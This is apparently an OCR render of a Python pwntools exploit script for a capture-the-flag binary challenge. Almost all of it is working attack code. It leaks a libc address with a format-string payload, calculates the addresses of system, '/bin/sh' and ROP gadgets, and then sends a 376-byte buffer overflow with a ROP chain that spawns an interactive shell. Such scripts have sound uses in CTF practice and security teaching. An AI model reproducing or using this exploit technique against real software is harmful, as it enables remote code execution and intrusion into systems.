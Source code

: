 ```python
print(f"HONK_messages:{res.decode()}")
print("---------------------------------------------------------------")

#judge
keyword = b"what's your name again?"
if res.find(keyword) == -1:
    print("HONKS count is incorrect :( Please retry...")
    exit()
else:
    print("HONKS count is correct! :D")

print("---------------------------------------------------------------")

#3rd: leak the libc address
payload = b"%57$p"  # from saved rip
session.sendline(payload)
res = session.recv().decode()
addresses = re.findall(r"0x[0-9a-fA-F]+", res)             #leak address : libc_start_call_main +122
libc_start_main_addr = int(addresses[0], 16) - 122 + 0xb0  #__libc_start_main = libc_start_call_main + 0xb0  


#gadget calculation
libc = ELF(libc_file, checksec=False)
rop = ROP(libc)
libc_start_main_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh"))
pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret']).address
ret_offset = rop.find_gadget(['ret']).address

libc_base_addr = libc_start_main_addr - libc_start_main_offset
system_addr = libc_base_addr + system_offset
binsh_addr = libc_base_addr + binsh_offset
pop_rdi_ret = libc_base_addr + pop_rdi_ret_offset 
ret = libc_base_addr + ret_offset

print(f"libc_base_addr:{hex(libc_base_addr)}")
print(f"system_addr:{hex(system_addr)}")
print(f"binsh_addr:{hex(binsh_addr)}")
print(f"pop_rdi_ret:{hex(pop_rdi_ret)}")
print(f"ret:{hex(ret)}")

print("---------------------------------------------------------------")

#4th:ROP chain
payload = b"A" * 376
payload += p64(ret) # aalignment adjustment
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
session.sendline(payload)
session.interactive()
```

---